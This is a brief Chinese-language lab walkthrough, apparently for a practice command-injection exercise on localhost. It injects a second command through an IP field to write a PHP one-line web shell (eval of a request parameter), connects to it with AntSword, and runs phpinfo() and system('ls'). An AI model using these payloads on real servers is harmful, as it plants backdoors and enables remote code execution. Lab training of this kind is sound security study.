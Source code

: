 上传一句话木马：

```
127.0.0.1 & echo "<?php @eval($_POST['cmd'])?>" > ./shell.php
```

蚁剑连接

或者直接

```
127.0.0.1 & echo "<?php @eval($_REQUEST[cmd])?>" > ./shell.php
```

访问

```
http://127.0.0.1/vul/rce/shell.php?cmd=phpinfo();
```

![image-20250114224743798](../../_media/image-20250114224743798.png)





### exec "eval"

```
system("ls");
```

![image-20250112185520174](../../_media/image-20250112185520174.png)
